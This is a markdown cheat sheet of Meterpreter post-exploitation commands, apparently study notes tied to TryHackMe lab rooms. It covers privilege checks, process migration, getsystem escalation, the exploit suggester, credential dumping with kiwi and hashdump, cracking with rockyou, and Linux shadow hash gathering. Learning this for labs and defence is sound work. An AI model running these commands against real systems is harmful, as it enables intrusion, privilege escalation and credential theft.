 # Meterpreter exploitation commands

[Go back](../index.md#meterpreter)

<div class="row row-cols-lg-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits. ⚠️ Before running them, migrate to a stable process with the highest privilege you can have.

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Windows commands

[![blue](../../../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```shell!
meterpreter> getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```shell!
meterpreter> getsystem
```

* ➡️ Load PowerShell

```shell!
meterpreter> load powershell
meterpreter> powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```shell!
meterpreter> load kiwi
meterpreter> migrate some_process_nt_system_compatible
meterpreter> creds_all # retrieve all credentials
meterpreter> # you can also create a backdoor...
```

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
meterpreter> hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used')> use auxiliary/analyze/crack_windows
msf6 exploit('module_used')> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used')> run
```
</div></div>

<hr class="sep-both">

## Linux commands

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Start a shell

```ps
meterpreter> shell
$
```
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
# basically, all that to do: "cat /etc/shadow"
meterpreter> bg
msf6 exploit('module_used')> use post/linux/gather/hashdump
msf6 exploit('module_used')> set SESSION 1
msf6 exploit('module_used')> run
```
</div></div>